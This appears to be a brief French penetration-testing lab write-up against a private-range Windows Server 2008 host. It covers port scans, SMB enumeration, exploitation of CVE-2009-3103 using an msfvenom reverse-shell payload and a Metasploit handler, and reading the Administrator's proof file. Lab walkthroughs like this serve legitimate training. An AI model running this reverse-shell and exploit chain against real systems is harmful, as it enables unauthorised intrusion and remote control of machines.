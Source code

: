   # Internal

	sudo masscan -p1-65535,U:1-65535 192.168.240.40 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 192.168.240.40 -oN nmap.txt
	
Scans classiques.

	PORT STATE SERVICE VERSION  
	53/tcp open domain Microsoft DNS 6.0.6001 (17714650) (Windows Server 2008 SP1)  
	135/tcp open msrpc Microsoft Windows RPC  
	139/tcp open netbios-ssn Microsoft Windows netbios-ssn  
	445/tcp open microsoft-ds Microsoft Windows Server 2008 R2 microsoft-ds (workgroup: WORKGROUP)  
	3389/tcp open ssl/ms-wbt-server?  
	5357/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)  
	49150/tcp closed inspider  
	49151/tcp closed unknown  
	49152/tcp open msrpc Microsoft Windows RPC  
	49153/tcp open msrpc Microsoft Windows RPC  
	49154/tcp open msrpc Microsoft Windows RPC  
	49155/tcp open msrpc Microsoft Windows RPC  
	49156/tcp open msrpc Microsoft Windows RPC  
	49157/tcp open msrpc Microsoft Windows RPC  
	49158/tcp open msrpc Microsoft Windows RPC  
	49159/tcp closed unknown  
	49160/tcp closed unknown
   
  Pas de sites web.

	nmap -p53,135,139,445,3389,49152-49158 -A -T4 192.168.240.40  
	enum4linux 192.168.240.40  
	nmap --script smb-vuln* -p139,445 192.168.240.40

Scans complémentaires pour SMB.

On voit que cette VM est vulnérable au CVE-2009-3103 : 

	msfvenom -p windows/shell/reverse_tcp LHOST=192.168.45.194 LPORT=443 EXITFUNC=thread -f python
	msfconsole -x "use exploit/multi/handler;set payload windows/shell/reverse_tcp;set LHOST 192.168.45.194;set LPORT 443;run;"
	...
	python2.7  exploit_SMB_CVE-2009-3103.py
	...
	whoami
	type C:\Users\Administrator\Desktop\proof.txt
